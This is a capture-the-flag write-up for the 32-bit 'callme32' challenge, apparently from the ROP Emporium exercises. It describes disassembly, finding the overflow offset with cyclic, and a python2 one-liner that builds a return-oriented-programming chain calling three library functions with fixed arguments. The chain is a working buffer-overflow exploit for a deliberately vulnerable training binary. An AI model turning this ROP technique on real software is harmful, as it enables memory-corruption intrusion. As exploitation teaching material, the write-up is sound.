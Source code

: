 # Callme32

Start examining the content of the file with rabin2 or ida.  
Then with pwngdb disassemble the function usefulFunction because when you look into it can see a call, so can be used.  

`b main` puts a brakepoint in the main function and run the program with `r`, now we can search for the string "/bin/cat flag.txt" that we found earlier using the decompilers, so now we can extract both directions, the call inside the usefulFunction and the string we wanted to execute.  
Now we need to find the size of the stack, using `cyclic int_value` for example `100`, a string gets print, copy that continue the program using `c` and paste the string from the cylic, press enter and it should have overflown the stack (if not try with bigger number)  
Next step is to use `cyclic -l "value_in_*EIP"` this value should appear before in the command line [REGISTERS], then it should print the offset needed to overflow.  

Last step is to do an one liner to make the binary.  

```console
python2 -c 'print "A"*44 + "\xf0\x84\x04\x08" + "\xf9\x87\x04\x08" +  "\xef\xbe\xad\xde" + "\xbe\xba\xfe\xca" + "\x0d\xf0\x0d\xd0" + "\x50\x85\x04\x08" + "\xf9\x87\x04\x08" +  "\xef\xbe\xad\xde" + "\xbe\xba\xfe\xca" + "\x0d\xf0\x0d\xd0" + "\xe0\x84\x04\x08" + "\xf9\x87\x04\x08" +  "\xef\xbe\xad\xde" + "\xbe\xba\xfe\xca" + "\x0d\xf0\x0d\xd0" ' > payload
```

>0x80484f0 -> callme_one  
>0x080487f9 -> gadget to pop  
>(0xdeadbeef, 0xcafebabe, 0xd00df00d) -> parameters  
>0x8048550 -> callme_two  
>0x080487f9 -> gadget to pop  
>(0xdeadbeef, 0xcafebabe, 0xd00df00d) -> parameters  
>0x80484e0 -> callme_three  
>0x080487f9 -> gadget to pop  
>(0xdeadbeef, 0xcafebabe, 0xd00df00d) -> parameters  

Next line to input the binary input, this should print the flag

```console
./callme32 < payload
```
